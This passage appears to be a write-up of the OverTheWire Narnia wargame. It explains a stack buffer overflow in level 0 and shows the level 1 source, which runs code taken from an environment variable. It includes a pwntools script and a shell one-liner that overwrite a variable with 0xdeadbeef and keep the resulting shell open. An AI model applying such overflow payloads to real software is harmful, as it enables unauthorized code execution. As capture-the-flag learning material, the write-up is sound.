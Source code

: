 ```c
    }
  

    return 0;
}
```

We have a type long variable named val. It's value is 0x41414141 which is "AAAA".
Now, the program calls scanf() to receive an input from the user and checks if this input equals to 0xdeadbeef. Since the bytes 0xde 0xad 0xbe 0xef are not ascii letters, we need to find a way to send these bytes to the program.

The program first initiates val, and then a buffer of 20 bytes. The operating system saves variables and other program data in stack based data types.
This means that first 'long' type is pushed to the stack, which are 32 bits or DW (4 Bytes). and then pushes to the stack another 20 bytes for the buffer variable. This allows us, the user, to overflow val! since scanf() allows us to input 24 chars, this is probably the way they intended us to do it.

```python
from pwn import *
import os

argv=["/narnia/narnia0"]

r1, w1 = os.pipe()
os.write(w1, b"\x41"*20 + b'\xef\xbe\xad\xde')

io = process(executable = '/narnia/narnia0', argv = argv, stdin=r1)

io.interactive()
```

But my problem here is that i cant communicate with the service.

or
```ruby
(echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat ;) | ./narnia0
```
After reading online, adding the cat command helps with keeping the called /bin/bash by the program

## Level 1

```c
int main(){
    int (*ret)();
  

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }
  

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();
  

    return 0;
}
```
